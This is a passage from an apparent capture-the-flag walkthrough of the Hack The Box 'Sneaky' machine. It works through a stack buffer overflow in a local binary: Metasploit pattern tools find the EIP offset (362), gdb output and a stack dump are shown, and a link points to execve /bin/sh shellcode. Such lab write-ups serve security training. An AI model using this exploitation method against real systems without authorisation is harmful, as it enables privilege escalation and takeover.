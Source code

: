 Sending `"A"*400` results in a segmentation fault `0x41414141` so our payload is in EIP.

```bash
luc@kali:~/HTB/Sneaky$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

```bash
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
The program being debugged has been started already.

Starting program: /usr/local/bin/chal Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Program received signal SIGSEGV, Segmentation fault.
0x316d4130 in ?? ()
```

```bash
luc@kali:~/HTB/Sneaky$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 400 -q 0x316d4130
[*] Exact match at offset 362
```

We've now used the generated pattern to find the exact offset, `362`. We can use [this](https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html) as the shellcode for our buffer overflow.

```bash
(gdb) run $(python -c 'print "A"*400')
Starting program: /usr/local/bin/chal $(python -c 'print "A"*400')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x/100x $esp
0xbffff560:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff570:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff580:     0x08004141      0xb7fce000      0x00000000      0x00000000
0xbffff590:     0x00000000      0xe6535a5b      0xdeccfe4b      0x00000000
0xbffff5a0:     0x00000000      0x00000000      0x00000002      0x08048320
0xbffff5b0:     0x00000000      0xb7ff24c0      0xb7e3ba09      0xb7fff000
0xbffff5c0:     0x00000002      0x08048320      0x00000000      0x08048341
0xbffff5d0:     0x0804841d      0x00000002      0xbffff5f4      0x08048450
0xbffff5e0:     0x080484c0      0xb7fed160      0xbffff5ec      0x0000001c
0xbffff5f0:     0x00000002      0xbffff714      0xbffff728      0x00000000
0xbffff600:     0xbffff8b9      0xbffff8ca      0xbffff8da      0xbffff8e6
0xbffff610:     0xbffff90c      0xbffff91f      0xbffff931      0xbffffe52
0xbffff620:     0xbffffe5e      0xbffffebc      0xbffffed8      0xbffffee7
0xbffff630:     0xbffffef0      0xbfffff01      0xbfffff0a      0xbfffff22
0xbffff640:     0xbfffff2a      0xbfffff3f      0xbfffff87      0xbfffffa7
0xbffff650:     0xbfffffc6      0x00000000      0x00000020      0xb7fdccf0
0xbffff660:     0x00000021      0xb7fdc000      0x00000010      0x078bfbff
0xbffff670:     0x00000006      0x00001000      0x00000011      0x00000064
0xbffff680:     0x00000003      0x08048034      0x00000004      0x00000020
0xbffff690:     0x00000005      0x00000009      0x00000007      0xb7fde000
0xbffff6a0:     0x00000008      0x00000000      0x00000009      0x08048320
```